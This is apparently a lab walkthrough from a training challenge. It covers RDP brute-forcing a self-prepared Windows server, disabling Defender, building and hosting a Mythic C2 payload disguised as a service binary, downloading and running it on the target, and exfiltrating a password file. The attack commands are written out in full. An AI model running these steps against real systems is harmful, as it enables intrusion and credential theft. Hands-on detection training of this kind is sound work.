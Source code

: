 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
    - Disable complexity requirements in _Local Group Policy Editor_.
    ![[Pasted image 20251018160803.png]]

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists 
        `sudo gunzip rockyou.txt.gz 
        `sudo head -50 rockyou.txt > ~/home/kali/mydfir-wordlist.txt 
        `echo "Winter2024!" >> ~/home/kali/mydfir-wordlist.txt
        ![[Screenshot (24).png]]
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y 
    `sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <Challenge-WIN-Haji-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
    - Password: `Winter2024!`
        

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<Challenge-WIN-Haji-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    

---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami ipconfig net user net group net user Administrator`

---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
    
- Disable Real-time protection and other security features.
    

---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<Challenge-Mythic-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo`
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
        
    - Output Format: **WinExe**
        
    - Commands: **Include All**
        
    - C2 Profile: **HTTP**
        
    - Callback Host: `http://<Challenge-Mythic-IP>`
        
    - Port: `80`
        
    - Payload Name: `ChallengeMythicPayload`
        

---

### 9. Hosting and Downloading Payload

1. **Download Payload**
    
    `wget <payload_download_link> --no-check-certificate mv <payload_name>.exe servicehost-haji.exe`
    
2. **Serve Payload over HTTP**
    
    `ufw allow 9999 python3 -m http.server 9999`
    
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<Challenge-Mythic-IP>:9999/servicehost-haji.exe -OutFile C:\Users\Public\Downloads\servicehost-haji.exe`
    
4. **Allow Port 80**
    
    `ufw allow 80`
    
5. **Execute Payload**
    
    `.\servicehost-haji.exe`
    
6. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo